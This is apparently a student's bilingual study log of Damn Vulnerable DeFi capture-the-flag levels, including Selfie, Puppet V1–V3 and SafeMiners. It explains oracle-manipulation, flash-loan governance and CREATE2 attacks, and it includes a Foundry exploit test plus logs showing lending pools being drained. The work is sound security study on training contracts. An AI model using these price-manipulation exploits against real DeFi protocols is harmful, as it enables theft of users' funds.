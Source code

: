 ```yaml
---
timezone: Asia/Shanghai 
---
```


# Lori

1. 自我介绍
[Lori](https://www.notion.so/Lori-b62d3531f44f467baa56ddb161f0ef3e?pvs=21), 研三在读学生，研究方向为区块链安全。

2. 你认为你会完成本次残酷学习吗？
保证至少能够完成90%，并参加 BlazCTF。

## Notes

<!-- Content_START -->

### 2024.08.29

Ethernaut 之前我已经做完了了，写了部分[解析和PoC](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/ethernaut).
damn-vulnerable-defi 写了一半，接下来会接着完成剩余的部分，前面3天先复习。
[Selfie](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/selfie/Selfie.t.sol)
这是有关治理投票的相关攻击，算是比较经典的。
我们注意到，想要提出的提案必须满足以下条件：
1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
2. 接收者不能是治理合约本身msg.sender
第一点，由于没有对持有代币时间的限制，攻击者可以通过闪电贷来绕过第一点的检查。

### 2024.08.30

[Puppet](https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/test/Levels/puppet)
Root cause：Spot price
这是一个lending protocol, 通过uniswapv1交易对的瞬时价格来计算coll，攻击者可以通过swap来影响价格，从而掏空池子。

log：
```
function testExploit_Puppet() public {
        uint256 v1PairBalance = dvt.balanceOf(address(puppetPool));
        console.log("v1PairBalance:", v1PairBalance);

        /* 
         * 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
         * 2. 将lending pool的钱通过借款借款 
         */
        emit log("-------------------------- before attack ---------------------------------");
        
        uint256 eth1 = calculateTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        uint256 eth2 = calculateTokenToEthInputPrice(UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_TOKEN_RESERVE, UNISWAP_INITIAL_ETH_RESERVE);
        
        emit log_named_decimal_uint("getTokenToEthInputPrice", uniswapExchange.getTokenToEthInputPrice(ATTACKER_INITIAL_TOKEN_BALANCE), 18);
        emit log_named_decimal_uint("attacker use ATTACKER_INITIAL_TOKEN_BALANCE to swap eth1", eth1, 18);
        emit log_named_decimal_uint("attacker use UNISWAP_INITIAL_TOKEN_RESERVE to swap eth1", eth2, 18);
        
        uint256 shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        emit log("-------------------------- after attack ---------------------------------");
        vm.startPrank(attacker);
        // 1. 将 eth/dvt 降低，通过swap 9.9 eth，可以考虑将1000e18 dvt注入池子
        dvt.approve(address(uniswapExchange), ATTACKER_INITIAL_TOKEN_BALANCE);
        uniswapExchange.tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 1 days);
        shouldETH = puppetPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        emit log_named_decimal_uint("attacker should spend ETH amount", shouldETH, 18);
        emit log_named_decimal_uint("attacker actually hold ETH amount", address(attacker).balance, 18);

        // 2. 将lending pool的钱通过借款借款 
        puppetPool.borrow{value: shouldETH}(POOL_INITIAL_TOKEN_BALANCE);
        vm.stopPrank();
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }
```

### 2024.08.31
[puppetV2](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels)
与最初版本不同的地方在于使用WETH-token交易对，现在还是关注质押WETH数量是如何计算的，
```
// PuppetV2.sol
    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        return (_getOracleQuote(tokenAmount) * 3) / 10 ** 18;
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            // 获取交易对数量
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount * (10 ** 18), reservesToken, reservesWETH);
    }
// UniswapV2Library.sol
    function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
        require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
        require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
        amountB = (amountA * reserveB) / reserveA;
    }
```
同样的，质押物价值也是通过uniswapv2池子里交易对数量比值作为瞬时价格，突破点也是在这。与上边不同的地在于需要将eth置换成WETH。

### 2024.09.01
Take a break over the weekend~ 

### 2024.09.02
[SafeMiners](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/damn-vulnerable-defi/test/Levels/safe-miners/SafeMiners.t.sol)
做到这题发现自己fork的repo是V2的，明天再做更新的，有点大意了>v<
这类问题非常经典。具体来说，当代币转账到一个未部署的地址时，攻击者可以利用 `CREATE2` 指令，通过暴力计算不同的 salt 值来预测合约地址，直至找到目标地址。然后，攻击者可以将攻击合约部署到该地址，并执行代币转账操作。
```
Logs:
  🧨 Let's see if you can break it... 🧨
  dvt.balanceOf(DEPOSIT_ADDRESS): 2000042.000000000000000000
  dvt.balanceOf(ATTACKER): 0.000000000000000000
  dvt.balanceOf(DEPOSIT_ADDRESS): 0.000000000000000000
  dvt.balanceOf(ATTACKER): 2000042.000000000000000000
  
🎉 Congratulations, you can go to the next level! 🎉
```
### 2024.09.03
[puppetV3](https://github.com/Chocolatieee0929/damn-vulnerable-defi/blob/master/test/puppet-v3/PuppetV3)

In the **PuppetV3Pool** contract, the **borrow** function relies on Uniswap V3's TWAP Oracle, which uses a 10-minute interval for price averaging. While this TWAP Oracle is generally secure on the mainnet, it may be more vulnerable to manipulation when the pool has low liquidity and fewer transactions. In such scenarios, the TWAP Oracle's price is based on the first swap transaction in each block, making it easier for attackers to influence the oracle price by executing trades that affect this transaction.

To get the flag for this challenge, I swapped 110e18 tokens for 99e18 WETH to manipulate the price. Meanwhile, I waited for a certain period, as longer wait times are better (refer to the TWAP calculation formula). Finally, I performed the borrowing in the next block.
The required WETH in the lending pool dropped sharply from 3000000000000000000000000 to 143239918968367545.

ps: At first, I tried to manipulate the tick by adding liquidity, but later I realized I was completely mistaken, how can adding liquidity move the tick, haha >v< I'm reviewing Uni V3 while working on the challenge.

```
[PASS] test_puppetV3() (gas: 826104)
Logs:
  ============= Before Attacker =============
  Player balance 1000000000000000000
  Player token balance 110000000000000000000
  Lending pool token balance 1000000000000000000000000
  Lending pool WETH balance 0
  Lending pool WETH required 3000000000000000000000000
   
  ============= Price Manipulation =============
  Swap Token: 110.000000000000000000
  Receive WETH: 99.999999999999999999
  time out 114s
  Lending pool WETH required 143239918968367545
   
  ============= After Attacker =============
  Player balance 856760081031632455
  Player token balance 9397757867327790806
  Lending pool token balance 0
  Lending pool WETH balance 143239918968367545
  Lending pool WETH required 0
```
<!-- Content_END -->
